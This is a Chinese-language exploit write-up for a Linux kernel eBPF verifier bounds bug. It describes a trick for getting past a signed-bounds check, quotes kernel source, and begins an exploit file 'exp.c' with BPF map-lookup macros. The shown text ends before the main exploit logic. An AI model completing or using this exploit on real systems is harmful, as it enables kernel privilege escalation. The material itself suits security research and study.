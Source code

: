 在漏洞利用时有个条件需要绕过，即`dst_reg->s32_min_value`需要大于等于0，初始值为0x80000000。这里我通过`BPF_JMP32_IMM(BPF_JLE, 5, 0x7fffffff, 1)`来设置。

```c
if (dst_reg->s32_min_value < 0 || smin_val < 0) {
		/* Lose signed bounds when ORing negative numbers,
		 * ain't nobody got time for that.
		 */
		dst_reg->s32_min_value = S32_MIN;
		dst_reg->s32_max_value = S32_MAX;
	} else {
		/* ORing two positives gives a positive, so safe to
		 * cast result into s64.
		 */
		dst_reg->s32_min_value = dst_reg->umin_value;
		dst_reg->s32_max_value = dst_reg->umax_value;
	}
```

## exp.c

```c
#define _GNU_SOURCE
#include <stdio.h>       
#include <stdlib.h>      
#include <unistd.h>      
#include <fcntl.h>       
#include <stdint.h>      
#include <string.h>      
#include <sys/ioctl.h>   
#include <sys/syscall.h> 
#include <sys/socket.h>  
#include <errno.h>       
#include <sys/prctl.h>  
#include "linux/bpf.h"   
#include "bpf_insn.h"    
#define LOG_BUF_SIZE 65535

#define BPF_MAP_GET(idx, dst)                                                        \
	BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),              /* r1 = r9                */   \
	BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),             /* r2 = fp                */   \
	BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),            /* r2 = fp - 4            */   \
	BPF_ST_MEM(BPF_W, BPF_REG_10, -4, idx),           /* *(u32 *)(fp - 4) = idx */   \
	BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),             \
	BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),            /* if (r0 == 0)           */   \
	BPF_EXIT_INSN(),                                  /*   exit(0);             */   \
	BPF_LDX_MEM(BPF_DW, (dst), BPF_REG_0, 0)          /* r_dst = *(u64 *)(r0)   */

#define BPF_MAP_GET_ADDR(idx, dst)                                                        \
	BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),              /* r1 = r9                */   \
	BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),             /* r2 = fp                */   \
	BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),            /* r2 = fp - 4            */   \
	BPF_ST_MEM(BPF_W, BPF_REG_10, -4, idx),           /* *(u32 *)(fp - 4) = idx */   \
	BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),             \
	BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),            /* if (r0 == 0)           */   \
	BPF_EXIT_INSN(),                                  /*   exit(0);             */   \
	BPF_MOV64_REG((dst), BPF_REG_0)          	  /* r_dst = (r0)   */

int ctrlmapfd, expmapfd;
int progfd;
int sockets[2];

char bpf_log_buf[LOG_BUF_SIZE];

```